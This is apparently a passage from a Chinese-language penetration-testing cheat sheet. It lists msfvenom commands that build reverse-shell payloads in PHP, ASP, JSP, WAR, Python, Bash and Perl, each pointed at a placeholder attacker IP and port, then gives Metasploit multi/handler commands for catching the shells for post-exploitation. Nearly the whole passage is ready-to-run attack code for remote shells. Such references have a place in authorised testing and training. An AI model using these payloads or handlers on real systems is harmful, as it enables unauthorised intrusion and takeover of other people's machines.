 
Web语言
```
#PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

#.ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f asp > shell.asp

#.JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f raw > shell.jsp

#java    .WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f war > shell.war
```


脚本语言
```
#Python
msfvenom -p cmd/unix/reverse_python LHOST=[AttackerIP] LPORT=[AttackerPort]  -f raw > shell.py
#Bash
msfvenom -p cmd/unix/reverse_bash LHOST=[AttackerIP]  LPORT=[AttackerPort]  -f raw > shell.sh
#Perl
msfvenom -p cmd/unix/reverse_perl LHOST=[AttackerIP] LPORT=[AttackerPort] -f raw > shell.pl
```


### msf开启监听

攻击机启动Handlers以开启AttackerLocalIP:Port监听，等待反弹shell

**Handlers**
Metasploit to be in a position to receive your incoming shells. 
Handlers should be in the following format.


**use exploit/multi/handler**

```
use exploit/multi/handler 
show options
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST [AttackerLocalIP]
#默认4444端口
set LPORT [AttackerLocalPort]
set ExitOnSession false
exploit -j -z
```

接收到反弹的shell则创建一个session，便于后渗透
